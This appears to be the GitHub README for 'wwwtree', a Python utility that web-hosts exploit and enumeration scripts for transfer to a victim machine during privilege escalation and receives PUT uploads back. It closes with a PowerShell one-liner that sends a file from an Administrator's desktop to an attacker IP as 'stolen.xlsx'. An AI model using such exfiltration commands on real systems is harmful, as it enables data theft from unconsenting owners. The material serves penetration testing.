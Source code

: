 # wwwtree
[![Python](https://img.shields.io/badge/Python-%E2%89%A5%203.x-yellow.svg)](https://www.python.org/) 
<img src="https://img.shields.io/badge/Developed%20on-kali%20linux-blueviolet">
[![License](https://img.shields.io/badge/License-MIT-red.svg)](https://github.com/t3l3machus/wwwtree/blob/main/LICENSE)
<img src="https://img.shields.io/badge/Maintained%3F-Yes-96c40f">

## Purpose
A utility for quickly and easily locating, web hosting and transferring resources (e.g., exploits/enumeration scripts) from your filesystem to a victim machine during privilege escalation.

### Video Presentation
https://www.youtube.com/watch?v=iog-eb_N0Hg

### Preview
![image](https://user-images.githubusercontent.com/75489922/204158750-90ad250c-7787-4fde-92c3-99dae65e5444.png)

## Description
wwwtree does the following:
 - hosts a specified root directory and prints the contents in a tree-like format. Every file is translated to it's equivalent server URL path so you can quickly copy it and use a web client to transfer it to the victim.
 - Filters out files that contain specific substrings based on user provided keywords (use `-k` to parse comma seperated values). Handy for quickly locating resources saved in deep and populated directory structures.
 - Automatically hides from the output files and folders that are most likely not in the scope of enumeration / exploitation (e.g., txt, yml, docx files or .git directories). You can control this behaviour by editing the list variables `hide_extensions` and `hide_dirs` in the source.
 - The wwwtree python http server handler supports PUT requests and by default saves files in `/tmp` (you can change that in the source). You can use it to transfer files from the victim to the attacker machine.


## Installation & Usage
```
git clone https://github.com/t3l3machus/wwwtree
cd ./wwwtree
pip3 install -r requirements.txt
chmod +x wwwtree.py

wwwtree.py [-h] -r ROOT_PATH -i INTERFACE [-l LEVEL] [-p PORT] [-k KEYWORDS] [-A] [-q]
```

### PUT Requests
I've noticed that curl on Windows seems to work improperly when trying to transfer large files. Powershell's `Invoke-WebRequest` works much better:
```
powershell -c "invoke-webrequest -method PUT -headers @{'Content-Type'='application/vnd.openxmlformats-officedocument.spreadsheetml.sheet'} -usebasicparsing -uri http://192.168.111.135/stolen.xlsx -body (get-content C:\Users\Administrator\Desktop\some_file.xlsx)"
```

